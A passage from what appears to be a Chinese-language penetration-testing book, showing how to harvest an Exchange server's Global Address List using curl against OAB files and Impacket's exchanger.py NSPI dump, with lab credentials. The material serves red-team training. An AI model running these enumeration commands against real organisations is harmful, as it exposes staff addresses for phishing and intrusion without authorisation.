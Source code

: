 图 1.10 – OABUrl 提取

接下来，我们将复制**oab.xml**文件并解析它，以找到包含**data**字样的文件名的**.lzx**文件的 URL。这就是我们的 GAL OAB 文件。最后一步，我们将保存该文件并解析其中的邮件地址：

```
curl -k --ntlm -u 'windomain.local\vinegrep:Qwerty123!' https://exchange.windomain.local/OAB/e79472bb-2dd6-4ffb-9e02-8dd42510bb1b/oab.xml > oab.xml
cat oab.xml | grep '.lzx' | grep data
curl -k --ntlm -u 'windomain.local\vinegrep:Qwerty123!' https://exchange.windomain.local/OAB/e79472bb-2dd6-4ffb-9e02-8dd42510bb1b/007215f1-4ab8-4ed2-a503-4cd82b0d8093-data-1.lzx > oab.lzx
strings oab.txt | egrep -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,5}" | sort -u
```

可以在以下截图中看到从 OAB 提取的 GAL 邮件：

![图 1.11 – 使用 OAB 提取 GAL 邮件](img/B18964_01_11.jpg)

图 1.11 – 使用 OAB 提取 GAL 邮件

通过 NSPI 导出通讯簿的另一种方式是由*Positive Technologies*在他们的研究中发现的[14]。一个名为**Exchanger**的工具现在是 Impacket 的一部分，因此我们可以直接使用它，无需额外安装。第一步，我们列出表格以获取 GUID，然后使用 GUID 导出有前景的表格：

```
python3 exchanger.py windomain.local/vinegrep:'Qwerty123!'@exchange.windomain.local -debug nspi list-tables -count
python3 exchanger.py windomain.local/vinegrep:'Qwerty123!'@exchange.windomain.local -debug nspi dump-tables -guid 715d9794-704c-4fe3-a038-24f149747b2c -lookup-type EXTENDED
```

导出结果可以在以下截图中看到：

![图 1.12 – 通过 NSPI 根据 GUID 导出通讯簿](img/B18964_01_12.jpg)
